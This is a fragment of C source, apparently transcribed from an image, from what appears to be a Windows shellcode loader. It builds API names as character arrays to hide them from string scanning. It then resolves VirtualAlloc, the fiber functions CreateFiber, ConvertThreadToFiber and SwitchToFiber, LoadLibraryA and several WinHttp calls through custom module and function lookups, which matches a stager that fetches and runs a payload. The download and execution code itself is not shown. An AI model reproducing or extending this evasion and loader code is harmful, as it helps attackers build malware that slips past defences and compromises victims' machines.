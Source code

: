 ```c


  /*--------------------------[ Kernel32 ]--------------------------*/

  WCHAR wKernel32[] = L"KERNEL32.DLL";

  CHAR  cVirtualAlloc[]           = { 'V', 'i', 'r', 't', 'u', 'a','l', 'A', 'l', 'l', 'o', 'c', 0 };
  CHAR  cCreateFiber[]            = { 'C', 'r', 'e', 'a', 't', 'e', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cConvertThreadToFiber[]   = { 'C', 'o', 'n', 'v', 'e', 'r', 't', 'T', 'h', 'r', 'e', 'a', 'd', 'T', 'o', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cSwitchToFiber[]          = { 'S', 'w', 'i', 't', 'c', 'h', 'T', 'o', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cLoadLibraryA[]           = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', 0 };

  pInstance->Modules.Kernel32           = LdrModuleAddr(wKernel32);

  pInstance->Api.pVirtualAlloc          = LdrFuncAddr(pInstance->Modules.Kernel32, cVirtualAlloc);
  pInstance->Api.pCreateFiber           = LdrFuncAddr(pInstance->Modules.Kernel32, cCreateFiber);
  pInstance->Api.pConvertThreadToFiber  = LdrFuncAddr(pInstance->Modules.Kernel32, cConvertThreadToFiber);
  pInstance->Api.pSwitchToFiber         = LdrFuncAddr(pInstance->Modules.Kernel32, cSwitchToFiber);
  pInstance->Api.pLoadLibraryA          = LdrFuncAddr(pInstance->Modules.Kernel32, cLoadLibraryA);
  /*--------------------------[ WinHttp ]--------------------------*/

  CHAR cWinHttp[] = { 'W', 'i', 'n', 'H', 't', 't', 'p', '.', 'd', 'l', 'l', 0 };

  CHAR cWinHttpOpen[]            = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'O', 'p', 'e', 'n', 0 };
  CHAR cWinHttpConnect[]         = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'C', 'o', 'n', 'n', 'e', 'c', 't', 0 };
  CHAR cWinHttpOpenRequest[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'O', 'p', 'e', 'n', 'R', 'e', 'q', 'u', 'e', 's', 't', 0 };
  CHAR cWinHttpReadData[]        = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'R', 'e', 'a', 'd', 'D', 'a', 't', 'a', 0 };
  CHAR cWinHttpReceiveResponse[] = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'R', 'e', 'c', 'e', 'i', 'v', 'e', 'R', 'e', 's', 'p', 'o', 'n', 's', 'e', 0 };
  CHAR cWinHttpSendRequest[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'S', 'e', 'n', 'd', 'R', 'e', 'q', 'u', 'e', 's', 't', 0 };
  CHAR cWinHttpQueryHeaders[]    = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'Q', 'u', 'e', 'r', 'y', 'H', 'e', 'a', 'd', 'e', 'r', 's', 0 };
  CHAR cWinHttpCloseHandle[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', 0 };

  pInstance->Modules.WinHttp   = pInstance->Api.pLoadLibraryA(cWinHttp);

  pInstance->Api.pWinHttpOpen            = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpOpen);
  pInstance->Api.pWinHttpConnect         = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpConnect);
  pInstance->Api.pWinHttpOpenRequest     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpOpenRequest);
  pInstance->Api.pWinHttpReadData        = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpReadData);
  pInstance->Api.pWinHttpReceiveResponse = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpReceiveResponse);
  pInstance->Api.pWinHttpSendRequest     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpSendRequest);
  pInstance->Api.pWinHttpQueryHeaders    = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpQueryHeaders);
  pInstance->Api.pWinHttpCloseHandle     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpCloseHandle);
}
```